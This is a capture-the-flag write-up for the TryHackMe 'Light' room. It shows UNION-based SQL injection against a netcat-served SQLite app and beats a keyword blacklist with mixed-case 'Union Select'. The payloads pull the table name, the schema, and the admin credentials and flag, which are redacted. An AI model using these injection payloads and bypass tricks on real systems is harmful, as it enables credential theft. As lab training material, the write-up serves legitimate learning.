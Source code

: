 ```yaml
---
title: Light - TryHackMe
date: 2025-01-19  
---
```


# Light

## Challenge Information

> *I am working on a database application called Light! Would you like to try it out? If so, the application is running
on `port 1337`. You can connect to it using `nc 10.10.226.23 1337`. You can use the username `smokey` to get started.*

## Challenge Overview

This challenge presents a database application accessible via a Netcat connection. After connecting to
`nc 10.10.226.23 1337`, we are prompted to enter a username. Using the provided username `smokey`, we successfully
authenticate with the following credentials:

```bash
> nc 10.10.226.23 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

The objective is to extract the `admin` username, its password, and the flag.

## Enumeration

### Initial Observations

Upon logging in, the application accepts SQL-like queries to interact with the database. However, we quickly discover
that key SQL keywords such as `UNION`, `SELECT`, `union`, and `select` are blacklisted, as shown below:

```sql
' UNION SELECT name FROM sqlite_master WHERE type='table
```

```bash
Ahh there is a word in there I don't like :(
```

This limitation requires us to craft payloads with alternate casing or spacing to bypass the blacklist.

### Bypassing the Blacklist

We successfully bypass the blacklist by altering the case or spacing of the blocked keywords:

```sql
' Union Select name FROM sqlite_master WHERE type='table
```

This payload reveals the presence of a table:

```bash
admintable
```

### Extracting Table Schema

Next, we query the `sqlite_master` table to retrieve the SQL definition of the `admintable`:

```sql
' Union Select sql FROM sqlite_master WHERE name='admintable
```

Output:

```sql
CREATE TABLE admintable
(
    id       INTEGER PRIMARY KEY,
    username TEXT,
    password INTEGER -- The password field is incorrectly labeled as an integer but contains string data. For example, the password for the user `smokey` is 'vYQ5ngPpw8AdUmL'.
)
```

### Extracting the Admin Credentials

#### Admin Username

To retrieve the admin username, we use the following payload:

```sql
' Union Select username FROM admintable WHERE username LIKE '%
```

Output:

```bash
TryHackMeAdmin
```

#### Admin Password

To obtain the admin password, we query the `admintable` with a specific condition:

```sql
' Union Select password FROM admintable WHERE username='TryHackMeAdmin
```

Output:

```bash
[REDACTED]
```

## Retrieving the Flag

Finally, we extract the flag using a query that avoids the admin-specific condition:

```sql
' Union Select password FROM admintable WHERE username != 'TryHackMeAdmin
```

Output:

```bash
[REDACTED]
```

## Reference

- [The Schema Table](https://www.sqlite.org/schematab.html)